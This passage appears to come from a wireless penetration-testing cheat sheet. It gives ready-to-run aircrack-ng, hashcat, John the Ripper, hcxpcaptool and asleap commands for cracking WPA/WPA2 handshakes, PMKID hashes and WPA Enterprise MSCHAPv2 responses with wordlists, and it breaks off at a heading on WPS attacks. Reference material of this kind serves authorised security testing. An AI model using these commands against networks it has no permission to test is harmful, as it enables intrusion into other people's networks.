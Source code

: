 ## Cracking Authentication Hashes {#cracking-hashes}

### Hash Types and Tools

#### WPA/WPA2 PSK Hashes
```bash
# Using aircrack-ng
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture.cap

# Convert to hashcat format
cap2hccapx capture.cap output.hccapx

# Using hashcat (mode 2500 for WPA/WPA2)
hashcat -m 2500 -a 0 capture.hccapx /usr/share/wordlists/rockyou.txt

# Using john the ripper
john --wordlist=/usr/share/wordlists/rockyou.txt --format=wpapsk hashes.txt
```

#### PMKID Hashes (WPA/WPA2 Clientless)
```bash
# Extract PMKID with hcxpcaptool
hcxpcaptool -z pmkid.txt capture.pcap

# Crack with hashcat (mode 16800)
hashcat -m 16800 -a 0 pmkid.txt /usr/share/wordlists/rockyou.txt
```

#### WPA Enterprise Hashes
```bash
# Extract challenge-response with asleap
asleap -C challenge -R response -W /usr/share/wordlists/rockyou.txt

# Using hashcat for MSCHAPv2
hashcat -m 5500 -a 0 hashfile.txt /usr/share/wordlists/rockyou.txt
```

### Performance Optimization
```bash
# Show hashcat benchmark
hashcat -b

# Use GPU acceleration
hashcat -m 2500 -d 1 -O capture.hccapx wordlist.txt

# Resume interrupted session
hashcat --restore
```

---

## Attacking WPS Networks {#wps-attacks}
